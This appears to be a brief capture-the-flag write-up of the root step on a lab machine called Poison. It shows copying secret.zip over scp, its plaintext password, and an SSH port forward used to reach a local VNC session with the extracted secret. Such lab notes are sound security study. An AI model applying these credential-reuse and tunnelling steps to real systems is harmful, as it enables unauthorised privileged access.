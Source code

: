 # Getting Root

```bash
charix@Poison:~ % ls
secret.zip      user.txt
```

```bash
$ scp charix@10.10.10.84:secret.zip .
```
password of secret.zip: Charix!2#4%6&8(0


```bash
$ ps -auxw
```
![[Pasted image 20211107233116.png]]


![[Pasted image 20211107234544.png]]

```bash
$ ssh -L5801:127.0.0.1:5801 -L5901:127.0.0.1:5901 charix@10.10.10.84
```

```bash
$ vncviewer -passwd secret 127.0.0.1::590
```

![[Pasted image 20211107234711.png]]